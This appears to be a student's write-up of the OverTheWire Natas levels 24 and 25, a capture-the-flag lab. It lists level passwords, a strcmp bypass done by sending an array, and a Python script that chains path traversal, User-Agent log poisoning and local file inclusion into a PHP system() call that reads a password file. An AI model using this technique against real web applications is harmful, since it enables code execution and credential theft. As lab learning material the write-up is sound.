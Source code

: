
---
### Natas 24

#### Credentials
Password: GHF6X7YwACaYYssHVY05cFq83hRktl4c

#### How you passed the challenge
1) I looked for strcmp() vulnerabilities and found that strcmp will return 0 in some cases where it fails
2) I submitted ```passwd``` with a POST request as an array with the only value being 42
3) The array caused strcmp to fail and the website to give me the password

#### What sins are evidenced in this challenge
Sin #12

#### How could those sins be mitigated
Don't rely on string comparison for authentication



---
### Natas 25

#### Credentials
Password: oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T

#### How you passed the challenge
1) At first I tried traversing to the password file before realizing that even after getting past the '../' replacement, the file inclusion check will remove 'natas_webpass', rendering direct LFI useless
2) I noticed that the User Agent was directly included into the PHP script, so I tried a few commands before landing on using the ```system``` call to cat ```/etc/natas_webpass/natas26```
3) I saw that later on that the script directly puts any output into the log file based on the PHPSESSID, so I set the lang to the location of the log file in order to output the contents of the log file with the password
```natas25.py```
```py
import requests

auth = ('natas25', 'GHF6X7YwACaYYssHVY05cFq83hRktl4c')
s = requests.Session()
s.auth = auth

data = {'lang': 'en'}

req = s.post(
    "http://natas25.natas.labs.overthewire.org/index.php",  data=data)
session_ID = req.cookies.get_dict()

data = {
    'lang': f'....//logs/natas25_{session_ID["PHPSESSID"]}.log'}
headers = {
    'User-Agent': '<?php system("cat /etc/natas_webpass/natas26"); ?>'}

req = s.post('http://natas25.natas.labs.overthewire.org/index.php',
             headers=headers, data=data)

print(req.text)
```
